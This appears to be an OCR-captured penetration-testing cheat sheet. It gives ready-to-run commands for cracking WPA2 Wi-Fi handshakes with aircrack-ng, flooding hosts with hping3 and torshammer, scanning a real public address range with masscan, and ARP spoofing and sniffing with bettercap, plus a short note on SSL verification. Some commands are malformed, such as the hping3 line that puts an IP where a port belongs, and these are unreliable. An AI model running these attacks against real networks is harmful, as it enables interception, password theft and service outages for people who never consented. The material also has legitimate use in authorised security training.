 Handshake
A wireless handshake, specifically the four-way handshake, is a process that establishes a secure connection between a wireless access point (AP) and a client device on a network.

WPA2-PSK Cracking
The most common method for cracking WPA2-PSK is through an offline brute-force attack, which involves attempting multiple password combinations until the correct one is found. The prerequisite for such an attack is capturing a valid handshake from an active client on the network.

Tools Used (Aircrack-ng Suite):
airodump-ng: Analyzes networks and captures handshakes.

aireplay-ng: Performs deauthentication attacks.

aircrack-ng: Cracks the password using the captured handshake.

Capturing Packets for a Target Network:
sudo airodump-ng --bssid <target_BSSID> --channel <target_channel> --write <output_file> wlan0mon
Cracking the Password:
aircrack-ng -w <wordlist_file> <handshake_file>
Denial-of-Service (DoS) & Distributed Denial-of-Service (DDoS) Attacks
Common Tools:
HOIC (High Orbit Ion Cannon): Open-source stress testing tool for websites and networks.
Download Here

LOIC (Low Orbit Ion Cannon): Open-source network stress testing tool used for DoS attacks.
Download Here

hping3: Versatile tool for network testing, security auditing, and packet crafting. It can be used to test a network's resilience against DoS attacks.

Example hping3 Command:
sudo hping3 -S --flood -V -p <IP_ADDRESS>
torshammer.py: Python script for performing DDoS attacks.
GitHub Repository

Example torshammer Command:
python torshammer.py -t 192.168.1.100 -r 100000 -T
Network Reconnaissance
Nmap
Nmap Cheat Sheet

nmap -p 80 --script http-generator.nse
nmap -p 443 --script=http-headers,http-title,http-generator
nmap --script="default and http-*"
Masscan
Masscan Cheat Sheet

masscan -p80,443,8080,8443,81,4444,4443,8888 70.176.0.0/16
Netdiscover
Netdiscover Cheat Sheet

sudo netdiscover
Bettercap
Bettercap Cheat Sheet

sudo bettercap
Nessus - Vulnerability Scanner
Nessus is a widely used commercial vulnerability scanner designed to identify security threats, missing patches, misconfigurations, and vulnerable software.

Installation & Setup:
wget 'https://www.tenable.com/downloads/api/v1/public/pages/nessus/ downloads/18394/download?i_agree_to_tenable_license_agreeme nt=true' -O Nessus_amd64.deb
sudo apt install -f ./Nessus_amd64.deb
sudo systemctl enable nessusd
sudo systemctl start nessusd
systemctl status nessusd
Note:

Once installed, navigate to the Nessus web UI.

If you cannot create a new scan immediately, the plugins may still be initializing.

ARP Spoofing & MITM Attacks
Tools:
Ettercap: Official Website

MITM Framework: GitHub Repository

Driftnet: Kali Linux Tool

Performing MITM Attacks with Bettercap:
sudo apt-get install bettercap
sudo bettercap --iface <interface>
Running an ARP Spoofing Attack:
net.probe on
set arp.spoof.duplex true
set arp.spoof.targets 192.168.74.128
arp.spoof on
net.sniff on
SSL Verification & MITM Prevention
To prevent MITM attacks through SSL verification:

Ensure that the SSL certificate is issued by a trusted Certificate Authority (CA) and has not been revoked.

Verify that the domain name in the certificate matches the website's domain.

Use tools like OpenSSL to manually check certificate details when necessary.

